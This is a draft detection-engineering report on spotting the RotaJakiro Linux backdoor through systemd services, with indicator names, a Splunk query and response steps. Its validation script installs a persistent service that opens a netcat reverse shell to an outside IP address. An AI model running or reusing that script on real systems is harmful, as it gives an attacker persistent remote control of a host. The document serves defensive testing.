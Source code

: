 RotaJakiro ADS Report
=========================
**Author:** *Aidan Border*

## Goal

Detect attempts to install the RotaJakiro backdoor on Linux hosts by looking for a dropped `systemd` services.

## Categorization

These attempts are categorized under [Persistence / Create or Modify System Process / Systemd service](https://attack.mitre.org/techniques/T1543/002).

## Strategy Abstract
Strategies for defending against this threat should go as follows:

* Use endpoint monitoring and protection tooling to monitor services or processes running on a Linux host.
* Look for specific service names or processes known to be used by RotaJakiro
  * sys-temd-agent.service
  * gvfsd-helper
  * systemd-daemon
* Fire an alert if any of these processes are found on the system.

## Technical Context

Most modern Linux systems use a project called `systemd` as their init system and services manager. `systemd` services are background programs that run to support different functionality. An example of a program that runs as a service is `sshd`, the OpenSSH Server daemon.

There are two directories that `systemd` will look for services in. 

1. System-wide services are located in /etc/systemd/system/services.
2. Services that run when a user logs in are located in ~/.config/systemd/user.

A `systemd` service can technically be used to automatically launch any software on the system. Threat actors can use this to auto-launch malicious software, such as starting a keylogger when a privileged user logs in to attempt to siphon administrator credentials to the system. It is important to note that a keylogger targeting X.Org is very easy to write. Installing a user-level service to log every keystroke to a file would be relatively easy given a way to run a shell script.

## Blind Spots and Assumptions

We assume the system uses systemd. Linux systems using other methods of init are not applicable for the ADS discussed here.

We assume RotaJakiro is running as root. If the backdoor is running as a normal user, it makes use of XDG Autostart (under a graphical environment) or .bashrc for users running without a desktop environment.

Unix systems, such as FreeBSD, do not use systemd. As such, the strategy discussed here is not applicable to those systems.

## False Positives

This alert may cause false positives for systems running the GNOME Desktop Environment if the backdoor is running without root privileges, as the backdoor masquerades as gvfsd, or the GNOME Virtual File System daemon.

## Validation

### Validating the Detection
Validation can be performed by executing the provided shell script to generate a systemd service in the /etc/systemd/system directory.

```bash
echo "[Unit]" > /etc/systemd/system/sys-temd-agent.service
echo "Description=Atomic Red Team Systemd Service" >> /etc/systemd/system/sys-temd-agent.service
echo "" >> /etc/systemd/system/sys-temd-agent.service
echo "[Service]" >> /etc/systemd/system/sys-temd-agent.service
echo "Type=simple"
echo "ExecStart=nc -e /bin/bash 192.168.100.191 9001" >> /etc/systemd/system/sys-temd-agent.service
echo "ExecStop=echo haha youve been pwned" >> /etc/systemd/system/sys-temd-agent.service
echo "" >> /etc/systemd/system/sys-temd-agent.service
echo "[Install]" >> /etc/systemd/system/sys-temd-agent.service
echo "WantedBy=graphical.target" >> /etc/systemd/system/sys-temd-agent.service
systemctl daemon-reload
systemctl enable sys-temd-agent.service
systemctl start sys-temd-agent.service
```

The detection should alert on the generated systemd service.

An example detection alerts on the following search in Splunk: 

```
host="rocky-detection-test" sourcetype="journald" sys-temd-agent.service
```

**ADD SCREENSHOT OF SPLUNK**

![Splunk showing the example rule](Splunk Example.png)

This search will alert every time the sys-temd-agent.service string appears in the journald log, so it is quite noisy right now.

> Note:
> For this example search to work, a Splunk Universal Forwarder must be configured to ship journald logs on the target system to Splunk. Additionally, threat detection engineers should adapt the "host" and "sourcetype" fields to their environment. The "host" field pulls from the target system's hostname. "rocky-detection-test" is probably not valid in your environment.

### Cleanup

Detection engineers may clean up from validating the detection against their environment by doing the following steps:

On the test system:
1. Disable the sys-temd-agent.service using `systemctl`.
2. Remove the sys-temd-agent.service file from the filesystem.
3. Execute `systemctl daemon-reload` to tell systemd that the services defined on the system have changed.
4. If it was set up for this test, remove the Splunk Universal Forwarder from the system (Using the RPM package, it will be installed in the `/opt/splunkforwarder` directory by default).

On the Splunk instance:
1. Remove any alerts defined in the Search and Reporting app.
2. If it was set up specifically for this test, remove the receiving rule from Settings > Forwarding and receiving > Configure receiving.
3. If a separate index was used for this test, remove the index from your Splunk Enterprise or Splunk Cloud environment.

## Priority

Since this is a backdoor with a variety of features, any true positive alerts fired from this detection are set to high.

## Response

The following steps should be taken immediately upon a true positive alert:
  * Remove the system from the network.
  * Disable the systemd service using `systemctl` to prevent it from running at boot, then stop the service. Alternatively, the system can simply be restarted. 
    * Depending on the security requirements of your environment, you may consider deleting the service file from the filesystem.
  * Kill the systemd-daemon binary if it is actively running.
    * Again, depending on your environment, the binary can be removed now as well.
  * Escalate to a security incident after the immediate threat has been removed.

## Additional Resources

DELETE BEFORE SUBMISSION: [GitHub Markdown Reference ](https://docs.github.com/en/get-started/writing-on-github/getting-started-with-writing-and-formatting-on-github/basic-writing-and-formatting-syntax#links)


[^1]: Shell script originally published by [Atomic Red Team](https://atomicredteam.io/privilege-escalation/T1543.002/#atomic-test-1---create-systemd-service). I removed the templates and added the path to the systemd service location and name of the systemd service.

[^2]: [Arch boot process - Arch Wiki](https://wiki.archlinux.org/title/Arch_boot_process)

[^3]: [MITRE ATT&CK - Create or Modify System Process: Systemd Service](https://attack.mitre.org/techniques/T1543/002/)

[^4]: [RotaJakiro: A long live secret backdoor with 0 VT detection](https://blog.netlab.360.com/stealth_rotajakiro_backdoor_en/)

[^5]: [Backdoor.Linux.ROTAJAKIRO.A](https://www.trendmicro.com/vinfo/us/threat-encyclopedia/malware/backdoor.linux.rotajakiro.a/) 

[^6]: [Palantir ADS Framework Blog Post](https://blog.palantir.com/alerting-and-detection-strategy-framework-52dc33722df2) 
